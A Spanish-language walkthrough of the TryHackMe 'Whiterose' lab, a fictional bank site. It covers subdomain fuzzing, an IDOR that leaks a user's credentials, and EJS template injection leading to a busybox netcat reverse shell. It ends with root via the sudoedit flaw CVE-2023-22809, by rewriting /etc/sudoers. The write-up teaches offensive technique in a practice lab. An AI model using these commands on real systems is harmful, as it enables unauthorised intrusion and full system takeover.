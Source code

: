 ```yaml
---
title: Whiterose TryHackMe Writeup
tags: [writeup, tryhackme, IDOR, EJS, CVE-2023-22809, sudoedit]
style: border
color: success
description: ""
---
```


![logo](../assets/img/whiterose-tryhackme-writeup/GbKP4d8WsAA6Aul.png)

## Reconocimiento
La máquina está basada en un capítulo de la serie [**Mr.Robot**](https://es.wikipedia.org/wiki/Mr._Robot), empezamos con unas credenciales, pero no sabemos dónde las podemos utilizar:
![](../assets/img/whiterose-tryhackme-writeup/3.png)

Lanzamos **nmap** a todos los puertos, con scripts y versiones de software:
```
> nmap -p- -sVC --min-rate 5000 10.10.15.196 -Pn -n -oN nmap
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-02 14:42 CET
Nmap scan report for 10.10.15.196
Host is up (0.054s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:07:96:0d:c4:b6:0c:d6:22:1a:e4:6c:8e:ac:6f:7d (RSA)
|   256 ba:ff:92:3e:0f:03:7e:da:30:ca:e3:52:8d:47:d9:6c (ECDSA)
|_  256 5d:e4:14:39:ca:06:17:47:93:53:86:de:2b:77:09:7d (ED25519)
80/tcp    open     http    nginx 1.14.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.14.0 (Ubuntu)
507/tcp   filtered crs
40348/tcp filtered unknown
54689/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Si intentamos acceder con la dirección IP por el puerto 80, nos redirecciona al dominio *cyprusbank.thm*, metemos el dominio en el fichero *hosts* y podremos observar la web del Banco Nacional de Chipre en modo mantenimiento:
![](../assets/img/whiterose-tryhackme-writeup/1.png)

Probamos a fuzzear con **dirsearch**, pero no encontramos nada, seguidamente lanzamos **wfuzz** para enumerar posibles subdominios y logramos enumerar un panel administrativo:
```
> wfuzz -c --hw 3 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.cyprusbank.thm" cyprusbank.thm

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://cyprusbank.thm/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                   
=====================================================================

000000001:   200        8 L      24 W       252 Ch      "www"                                                                                                                     
000000024:   302        0 L      4 W        28 Ch       "admin"
```

Metemos el nuevo subdominio en el fichero hosts, accedemos a él y enumeramos el panel de administración del Banco Nacional de Chipre:
![](../assets/img/whiterose-tryhackme-writeup/2.png)

Utilizamos las credenciales aportadas por el reto, son válidas, vemos que la cuenta del usuario está bien llena de *dinerito*, también se aprecia varios pagos recibidos por diferentes personas:
![](../assets/img/whiterose-tryhackme-writeup/4.png)

Los teléfonos aparecen ofuscados, tampoco tenemos acceso al apartado *Settings*:
![](../assets/img/whiterose-tryhackme-writeup/5.png)


## Explotación
Identificamos una especie de *LLM* (chatbot) o sistema de mensajería no funcional en el apartado *Messages*, nos llama mucho la atención la exposición del identificador a través del parámetro "*c*", ya que podría tener fallos de autorización y conseguir explotar un *IDOR*:
![](../assets/img/whiterose-tryhackme-writeup/6.png)

Hacemos una prueba de concepto, sustituyendo el valor "*5*" por "*1*", y parece que logramos explotar el *IDOR*:
![](../assets/img/whiterose-tryhackme-writeup/7.png)

Tras varias pruebas de fuzzing sobre el parámetro "*c*", logramos recuperar unas credenciales del usuario *Gayle Bev*:
![](../assets/img/whiterose-tryhackme-writeup/8.png)

Nos autenticamos con las credenciales de *Gayle*, ahora si es posible visualizar los teléfonos, señal que tenemos a un usuario con más privilegios:
![](../assets/img/whiterose-tryhackme-writeup/9.png)

Aunque no era parte del reto, me pareció simpático que incluyeran en la lista a *Amancio Ortega*, os dejo su teléfono por si le queréis pedir *Bizum* (será por dinero!)
![](../assets/img/whiterose-tryhackme-writeup/10.png)

Con este usuario si que logramos acceder a la zona de *Settings*, por lo que diría que el siguiente paso es explotar algunos de los siguientes campos:
![](../assets/img/whiterose-tryhackme-writeup/11.png)

Intentamos diferentes ataques de inyección de código *SQL* y *JavaScript*, en uno de ellos logramos ver que el siguiente error, donde nos muestra el fichero "*settings.ejs*":
![](../assets/img/whiterose-tryhackme-writeup/13.png)

Buscamos información y exploits para *EJS* y encontramos este:
- [https://eslam.io/posts/ejs-server-side-template-injection-rce/](https://eslam.io/posts/ejs-server-side-template-injection-rce/)

Intentamos hacer la prueba de concepto sobre el campo *password*, vemos que la aplicación explota, pero intenta ejecutar el **netcat** sin éxito:
![](../assets/img/whiterose-tryhackme-writeup/14.png)

Utilizamos **busybox** por **netcat** y conseguimos explotar la vulnerabilidad con éxito y obtener una conexión con la máquina remota:
```
busybox nc 10.XX.XX.XX 443 -e /bin/bash
```
![](../assets/img/whiterose-tryhackme-writeup/15.png)

Tras varios directorios recursivos, identificamos el fichero *user.txt* con la flag.
```
web@cyprusbank:~$ cat user.txt      cat user.txt
cat user.txt
THM{*********************}
web@cyprusbank:~$ 
```


## Escalada de privilegios
Ejecutamos "*sudo -l*", vemos que nuestro usuario puede impersonar al usuario root sin contraseña para ejecutar *sudoedit* sobre un fichero de configuración web de **Nginx**:
```
web@cyprusbank:~$ sudo -l
Matching Defaults entries for web on cyprusbank:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
web@cyprusbank:~$ 
```

Buscamos por Internet, encontramos varios artículos relacionados y exploits, podemos utilizar la siguiente documentación y exploit para lograr la explotación:
- [https://raw.githubusercontent.com/n3m1sys/CVE-2023-22809-sudoedit-privesc/refs/heads/main/exploit.sh](https://raw.githubusercontent.com/n3m1sys/CVE-2023-22809-sudoedit-privesc/refs/heads/main/exploit.sh)
- [https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf](https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf)

#### Explotación
El exploit no funciona al 100%, pero nos ayuda a identificar que la máquina es explotable por esta técnica y que tendremos que ejecutar la explotación de forma manual:
```
web@cyprusbank:/tmp$ ./exploit.sh         ./exploit.sh
./exploit.sh
> BINGO! User exploitable
> Opening sudoers file, please add the following line to the file in order to do the privesc:
web ALL=(ALL:ALL) ALL
Press any key to continue..
```

Vemos el código fuente, vemos que almacena en la variable de entorno *EDITOR* la línea de **vim** apuntando al fichero *sudoers*, posteriormente se debería de lograr abrir con el usuario privilegiado y añadir la línea con todos los permisos.
![](../assets/img/whiterose-tryhackme-writeup/16.png)

En nuestro caso el escenario es diferente, pero explotable ;), ejecutamos los siguientes comandos para lograr la apertura del fichero como root:
```
EDITOR="vim -- /etc/sudoers"
sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

Insertamos la línea, pero además añadimos "*NOPASSWD: ALL*", para evitar escribir la contraseña, guardamos y salimos del fichero:
![](../assets/img/whiterose-tryhackme-writeup/17.png)

Para finalizar, comprobamos que ya podemos ejecutar cualquier comando con con cualquier usuario, ejecutamos una **bash** como root, conseguimos escalar privilegios y leer la última flag:
```
web@cyprusbank:~/app$ sudo -l

User web may run the following commands on cyprusbank:
    (ALL : ALL) NOPASSWD: ALL
web@cyprusbank:~/app$ sudo -u root /bin/bash
root@cyprusbank:/home/web/app# id
uid=0(root) gid=0(root) groups=0(root)
root@cyprusbank:/home/web/app# ls -lna /root
total 40
drwx------  6 0 0 4096 Apr  4  2024 .
drwxr-xr-x 23 0 0 4096 Jul 12  2023 ..
lrwxrwxrwx  1 0 0    9 Jul 16  2023 .bash_history -> /dev/null
-rw-r--r--  1 0 0 3106 Apr  9  2018 .bashrc
drwx------  2 0 0 4096 Jul 16  2023 .cache
-rwxr-xr-x  1 0 0  156 Apr  4  2024 clean.sh
drwx------  3 0 0 4096 Jul 16  2023 .gnupg
drwxr-xr-x  3 0 0 4096 Jul 16  2023 .local
drwxr-xr-x  5 0 0 4096 Apr  4  2024 .pm2
-rw-r--r--  1 0 0  148 Aug 17  2015 .profile
-rw-r--r--  1 0 0   21 Jul 15  2023 root.txt
root@cyprusbank:/home/web/app# cat /root/root.txt
THM{**************}
root@cyprusbank:/home/web/app# 
```
¡Hasta la próxima! ¡Que la "*suerte*" os acompañe!